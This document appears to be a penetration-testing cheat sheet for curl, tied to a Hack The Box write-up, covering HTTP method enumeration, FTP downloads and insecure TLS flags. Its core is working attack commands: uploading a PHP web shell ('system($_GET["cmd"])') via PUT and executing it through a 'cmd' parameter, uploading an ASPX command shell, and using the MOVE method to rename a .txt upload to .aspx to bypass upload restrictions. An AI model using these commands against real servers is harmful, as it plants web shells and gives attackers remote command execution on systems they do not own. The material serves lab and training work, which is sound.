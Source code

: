 # Curl

#### Enumerate HTTP methods 
```bash
 # curl -v -X OPTIONS http://172.168.1.10/test

 -v : Used for debugging
 -X : Specifies a custom request method
```

#### Upload a php file 
```bash
 # curl -v -X PUT -d "<?php phpinfo();?>" http://172.168.1.10/test/test.php

 -d : Sends the specified data in a POST request to the HTTP Server

 Upload file and then test that it is there
 # curl -X PUT http://xx.xx.xx.xx/df.txt -d @cmdasp.aspx
 - Uploading an aspx file when it is not allowed via the put command 
 
 # curl -X PUT http://xx.xx.xx.xx/df.txt -d @test.txt 
 Ref: http://0xdf.gitlab.io/2019/03/06/htb-granny.html 
 - The -d @text.txt syntax says that the data for the request should be the contents of the file text.txt
 
 # curl http://xx.xx.xx.xx
```

#### Uploada PHP shell file
```bash
 # curl -X PUT -d '<?php system($_GET["cmd"]);' http://172.168.1.10/test/cmd.php

 # To run the file

 # curl "http://172.168.1.10/test/cmd.php?cmd=ls%20-lha"
```

#### Download files from FTP server
```bash
 # curl -u ftpuser:ftppass -O ftp://ftp_server/public_html/users.txt

 -u : Specifies the username and password
 -O : Saves output to local director
```

#### To access an https site unsecurely
 ```bash
 # curl -k, --insecure 
 
 -k : Process the url insecurely and ignore ssl errors
 ```
 
#### Using the MOVE method via curl
```bash
 # curl -X MOVE -H 'Destination:http://xx.xx.xx.xx/Oxdf.aspx' http://xx.xx.xx.xx/0xdf.txt 
 
 -H : <header/@file> Pass custom header(s) to server 
```
